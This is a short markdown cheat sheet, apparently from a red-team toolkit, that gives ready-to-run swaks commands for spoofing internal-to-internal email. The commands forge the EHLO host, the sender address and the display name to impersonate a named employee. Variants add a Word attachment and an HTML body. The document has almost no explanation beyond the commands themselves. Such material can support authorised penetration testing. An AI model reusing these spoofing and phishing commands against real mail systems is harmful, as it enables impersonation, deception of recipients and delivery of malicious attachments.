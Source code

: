 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# swaks
## spoof internal-to-internal email
```
$ swaks -ehlo 'spoofed.evilcorp.com' --to bob@evilcorp.com --from spoofed.person@evilcorp.com --h-From: '"Angela Moss" <spoofed.person@evilcorp.com>' --h-Subject "You're Fired" --body "You're Fired" -d "Date: %DATE%\nTo: %TO_ADDRESS%\nFrom: %FROM_ADDRESS%\nSubject: test %DATE%\nMessage-Id: <%MESSAGEID%>\n%NEW_HEADERS%\n%BODY%\n"
```

## add an attachment
```
$ swaks -ehlo 'spoofed.evilcorp.com' --to bob@evilcorp.com --from spoofed.person@evilcorp.com --h-From: '"Angela Moss" <spoofed.person@evilcorp.com>' --h-Subject "You're Fired" --body "You're Fired" --attach-type application/msword -attach Attachment.doc -d "Date: %DATE%\nTo: %TO_ADDRESS%\nFrom: %FROM_ADDRESS%\nSubject: test %DATE%\nMessage-Id: <%MESSAGEID%>\n%NEW_HEADERS%\n%BODY%\n"
```

## html body
```
$ swaks -ehlo 'spoofed.evilcorp.com' --to bob@evilcorp.com --from spoofed.person@evilcorp.com --h-From: '"Angela Moss" <spoofed.person@evilcorp.com>' --h-Subject "You're Fired" --body body.html --header "Content-Type: text/html" -d "Date: %DATE%\nTo: %TO_ADDRESS%\nFrom: %FROM_ADDRESS%\nSubject: test %DATE%\nMessage-Id: <%MESSAGEID%>\n%NEW_HEADERS%\n%BODY%\n"
```